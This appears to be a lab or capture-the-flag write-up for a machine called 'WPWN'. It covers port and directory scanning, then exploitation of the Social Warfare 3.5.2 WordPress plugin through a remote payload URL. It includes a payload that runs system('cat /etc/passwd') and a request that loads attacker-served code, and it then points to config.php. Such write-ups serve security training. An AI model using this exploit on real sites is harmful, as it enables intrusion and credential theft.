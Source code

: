 *WPWN*  

**RECON**
---
**Ip Search**  
Our IP leads us to this blank page lets move to scanning  
![image6](https://user-images.githubusercontent.com/66635295/158526173-aa39b52e-d9c3-4ac0-8865-9792b5497a4f.png)
**Nmap Scan**  
[nmap -sV -sC 192.168.55.123]  
-version -safescan
Port 22, and 80 are open  
![image3](https://user-images.githubusercontent.com/66635295/158744691-d688bd5d-81d7-4af4-b510-a2e1b527177f.png)  
**Scan for hidden directories (dirbuster)**   
[dirb http:// 192.168.55.123]  
![image8](https://user-images.githubusercontent.com/66635295/158747642-86dbd602-e37e-499f-b37f-430b1b4870e5.png)  
**WordPress Page**  
![image7](https://user-images.githubusercontent.com/66635295/158747979-04e74459-23fc-4d85-add5-2ddb83e22836.png)  
**Scan for wordpress vulnerabilities**   
[wpscan --url http:// 192.168.55.123/wordpress/]
![image1](https://user-images.githubusercontent.com/66635295/158748297-d989c1f4-acdc-4e01-bef1-9e606e4ed10c.png)  
**Scan reveals outdated plugin named Social-Warfare 3.5.2**  
This Vulnerability allows commands to run for obtaining user Credentials  
![image15](https://user-images.githubusercontent.com/66635295/158748468-74c92d41-881e-4414-9070-43a2bb30d4f1.png)  
**Payload File**  
[<<pre>system(‘cat /etc/passwd’)</pre>>]  
Shows passwd file contents  
![image5](https://user-images.githubusercontent.com/66635295/158751852-ada62fb4-56f6-4e2f-ae20-68cd67dd5b81.png)

**Python Simple server**  
[python3 -m http.server 80]  
![image14](https://user-images.githubusercontent.com/66635295/158752244-0f7a0d8f-8f83-41cd-b61b-d747a62290ce.png)




**ENUMURATION**
---
**Visit Website
[http:// 192.168.55.123/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://localhost/payload.txt]    
User Takis is revealed 
![image10](https://user-images.githubusercontent.com/66635295/158752455-4b285dee-5cd6-4449-a4f3-9d179e54d6a2.png)  
**Config.php**
Word press config.php holds important info. The payload can be used to check for it  
![image9](https://user-images.githubusercontent.com/66635295/158752587-5af73a09-806d-4ada-bb96-16bcc3e5bd9e.png)


